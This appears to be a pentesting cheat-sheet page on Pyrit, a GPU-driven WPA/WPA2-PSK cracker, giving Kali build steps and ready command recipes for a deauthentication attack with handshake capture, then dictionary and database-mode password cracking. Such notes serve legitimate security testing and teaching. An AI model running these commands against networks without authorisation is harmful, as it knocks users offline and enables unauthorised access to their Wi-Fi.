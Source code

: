# Pyrit Attack (WPA/WPA2)

A GPGPU-driven WPA/WPA2-PSK key cracker

Pyrit exploits the computational power of many-core- and GPGPU-platforms to create massive databases, pre-computing part of the WPA/WPA2-PSK authentication phase in a space-time tradeoff. It is a powerful attack against one of the world's most used security-protocols

## Setup

Pyrit is no longer installed on Kali by default. Also `apt install pyrit -y` does not work. Pyrit still uses Python2.

```bash
cd
sudo apt update -y
sudo apt install git python2-dev libssl-dev libpcap-dev -y
git clone https://github.com/JPaulMora/Pyrit.git --depth=1
sed -i "s/COMPILE_AESNI/COMPILE_AESNIX/" Pyrit/cpyrit/_cpyrit_cpu.c
cd Pyrit
python2 setup.py clean
python2 setup.py build
sudo python2 setup.py install
cd ..
pyrit -h
```

## Commands

```bash
# Monitor and save packets while doing a deauthentication attack
sudo airmon-ng start wlan0 $CHANNEL
pyrit -r wlan0mon -o $PCAP stripLive
sudo aireplay-ng --deauth 7 -a $BSSID -c $CLIENT wlan0mon
```
```bash
# Crack the secret in dictionary mode
pyrit -r $PCAP -i $WORDLIST -b $BSSID attack_passthrough
```

```bash
# Crack the secret in database mode
pyrit -i <wordlist> import_passwords                                      ## import word list to crack WPA password in pyrit with database mode
pyrit -e <ESSID> create_essid                                             ## adding the ESSID of the access point to the pyrit database
pyrit batch                                                               ## creating PMKs for ESSID
pyrit -r <capture_file> -b <AP_MAC> attack_db
```

## References

* [GoLinuxCloud Install on Kali](https://www.golinuxcloud.com/install-pyrit-in-kali-linux/)
* [Pyrit GitHub](https://github.com/JPaulMora/Pyrit)
* [Null Byte](https://null-byte.wonderhowto.com/how-to/crack-wpa-wpa2-wi-fi-passwords-with-pyrit-0196782/)